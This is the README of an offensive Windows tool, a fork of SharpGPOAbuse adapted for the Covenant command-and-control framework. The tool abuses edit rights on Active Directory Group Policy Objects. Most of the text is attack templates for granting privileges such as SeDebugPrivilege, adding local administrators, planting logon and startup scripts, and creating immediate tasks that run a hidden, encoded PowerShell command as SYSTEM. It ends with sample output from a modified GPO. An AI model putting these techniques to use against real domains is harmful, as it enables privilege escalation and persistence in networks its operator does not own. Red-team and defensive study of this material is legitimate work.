 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork provides some modifications for use with Covenant's Grunts.  The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs); removing the dependency for CommandLineParser, and modifying `Main()` to hardcode an attack type and associated options.

## Compile Instructions ## 
SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage ##
Modify line `36` to define the attack type.
e.g. `StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");`

Modify the strings (line `11` and onwards) to define the necessary options for the chosen attack type.

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin 
```
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script  
```
string ScriptName = "";
string ScriptContent = "";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task  
```
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output
```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```